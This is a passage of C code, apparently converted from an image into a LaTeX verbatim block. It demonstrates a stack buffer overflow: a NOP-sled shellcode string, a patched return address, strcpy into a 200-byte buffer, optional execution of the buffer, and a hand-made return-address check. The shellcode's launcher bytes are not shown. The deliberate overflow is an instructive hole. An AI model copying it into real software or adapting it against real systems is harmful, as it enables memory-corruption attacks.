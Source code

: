 \documentclass[11pt]{article}
\begin{document}
\begin{enumerate}[\indent a)]
\begin{verbatim}
    /**
     * Above shell launcher part is 60 bytes and it is only for Linux x86_64
     */
    
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" \
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" \
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" \
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" \
    
    /**
     * Above NOP sled is 40 bytes
     */
    
    /**
     * Buffer is full now smash the RBP
     */
    
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";
    
    char* dat = (char *) __builtin_return_address(0);
    printf("Overwriting return address %x\n", dat); // to end of shellcode
    // copy expected return address (low bytes) and evade from ASLR crashes temporarily
    memcpy((void *)shellcode+216, &dat, 4);

    /**
     * print the ending of shellcode to see it was compensated by the address
     */
    printf("212 pchar %x\n", shellcode[212]);
    printf("213 pchar %x\n", shellcode[213]);
    printf("214 pchar %x\n", shellcode[214]);
    printf("215 pchar %x\n", shellcode[215]);
    printf("216 pchar %x\n", shellcode[216]);
    printf("217 pchar %x\n", shellcode[217]);
    printf("218 pchar %x\n", shellcode[218]);
    printf("219 pchar %x\n", shellcode[219]);

    printf("Expected function return addr %p\n", __builtin_return_address(0));
    printf("Shellcode address on DS %p\n", &shellcode);

    /**
     * Buffer, which is going to be overflow
     */
    char buffer[200];
    strcpy(buffer, shellcode);
    printf("BUFFER %p\n", &buffer);

    if (argv[1] != 0x0 && strcmp(argv[1], "Y") == 0)
    {
        (*(void (*)()) buffer)();
    }

    /**
     * Below code behaves like stack guard (postamble)
     * Checks return address with address saved in heap
     */
    printf("%p\n", __builtin_return_address(0));
    printf("GELEN ADRES %p\n", *(&data+0xD));
    printf("ALINAN ADRES %p\n", __builtin_return_address(0));

    if (*(&data+0xD) == __builtin_return_address(0)) {
        _exit(0); // if everything is ok _exit, without atexit(without stack cleanup and alignment)
    } else{
        abort(); // or abort immediately with unsuccessful termination.
    }
}


\end{verbatim}
\end{enumerate}
\end{document}
